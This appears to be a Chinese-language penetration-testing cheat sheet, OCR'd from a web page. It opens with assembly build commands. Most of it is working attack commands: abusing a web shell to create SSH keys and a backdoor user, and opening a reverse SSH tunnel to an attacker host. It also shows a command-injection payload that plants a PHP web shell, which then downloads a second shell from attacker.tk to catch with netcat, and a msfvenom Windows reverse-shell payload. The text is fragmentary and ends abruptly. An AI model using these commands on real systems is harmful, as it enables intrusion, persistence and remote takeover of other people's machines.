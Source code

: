 编译 Assemble 代码

$ nasm -f elf32 simple32.asm -o simple32.o
$ ld -m elf_i386 simple32.o simple32

$ nasm -f elf64 simple.asm -o simple.o
$ ld simple.o -o simple

使用非交互 Shell 打入内网

# 生成 shell 使用的 ssh 密钥
$ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N \"\" "
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"

# 增加用户 tempuser
$ useradd -m tempuser
$ mkdir /home/tempuser/.ssh && chmod 700 /home/tempuser/.ssh
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" > /home/tempuser/.ssh/authorized_keys
$ chmod 700 /home/tempuser/.ssh/authorized_keys
$ chown -R tempuser:tempuser /home/tempuser/.ssh

# 反弹 ssh shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@<attacker_ip>"
```
利用 POST 远程命令执行获取 Shell
```
attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Bwhoami&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl http://victum.tk/shell.php?cmd=id

# 在服务器上下载 shell (phpshell.php)

http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27

# 运行 nc 并执行 phpshell.php
attacker:~$ nc -nvlp 1337
```
以管理员身份在 Win7 上反弹具有系统权限的 Shell
```
msfvenom –p windows/shell_reverse_tcp LHOST=192.168.56.102 –f exe > danger.exe

# 显示账户配置
net user <login>
